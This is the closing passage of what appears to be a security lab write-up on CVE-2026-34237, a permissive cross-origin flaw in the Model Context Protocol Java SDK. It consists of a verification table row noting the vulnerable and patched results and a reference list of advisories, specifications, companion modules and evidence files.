| 2026-07-30 | This reproduction built on `mcp-core 1.0.0`, verified `ATTACK-OK`, and the patched build verified `NO-REPRO` in the lab |

---

## References

Primary sources (verified for this study):

- GitHub Security Advisory GHSA-hv2w-8mjj-jw22 - <https://github.com/modelcontextprotocol/java-sdk/security/advisories/GHSA-hv2w-8mjj-jw22>
- NVD - CVE-2026-34237 - <https://nvd.nist.gov/vuln/detail/CVE-2026-34237>
- Vulnerable code reference (advisory) - `HttpServletSseServerTransportProvider.java` in `modelcontextprotocol/java-sdk`
- Maven Central metadata - `io.modelcontextprotocol.sdk:mcp-core` (versions incl. 1.0.0 / 1.0.1 / 1.1.1 / 0.18.3)
- CWE-942 - Permissive Cross-domain Policy with Untrusted Domains - <https://cwe.mitre.org/data/definitions/942.html>
- Model Context Protocol specification - transport security guidance - <https://modelcontextprotocol.io>

Companion (lab):

- Module 02 - DNS rebinding defeats Origin validation (CVE-2025-66414 class, TypeScript SDK) - [`../02-dns-rebind/README.md`](../02-dns-rebind/README.md) and its `scenario.ts`
- OWASP LLM Top 10 (LLM06, Excessive Agency); OWASP Agentic Security Initiative (ASI02/ASI03)
- Evidence: [`vuln.txt`](./evidence/vuln.txt) (ATTACK-OK), [`fixed.txt`](./evidence/fixed.txt) (NO-REPRO), [`sdk-evidence.txt`](./evidence/sdk-evidence.txt)
- Figures: [`01-architecture.svg`](./media/01-architecture.svg), [`01-sequence.svg`](./media/01-sequence.svg), [`01-detection-pipeline.svg`](./media/01-detection-pipeline.svg)
